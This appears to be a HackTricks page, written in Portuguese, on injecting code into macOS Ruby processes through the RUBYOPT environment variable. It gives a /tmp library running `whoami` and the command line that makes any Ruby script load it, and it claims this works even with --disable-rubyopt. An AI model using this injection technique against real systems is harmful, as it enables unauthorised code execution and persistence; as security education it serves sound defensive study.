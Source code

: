 # Injeção de Aplicações Ruby no macOS

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

Usando essa variável de ambiente, é possível **adicionar novos parâmetros** ao **ruby** sempre que ele for executado. Embora o parâmetro **`-e`** não possa ser usado para especificar código ruby a ser executado, é possível usar os parâmetros **`-I`** e **`-r`** para adicionar uma nova pasta ao caminho de bibliotecas a serem carregadas e então **especificar uma biblioteca para carregar**.

Crie a biblioteca **`inject.rb`** em **`/tmp`**:
```ruby:inject.rb
puts `whoami`
```
Crie um script Ruby em qualquer lugar como:
```ruby:hello.rb
puts 'Hello, World!'
```
Então, faça um script ruby arbitrário carregá-lo com:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
Fato curioso, funciona mesmo com o parâmetro **`--disable-rubyopt`**:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
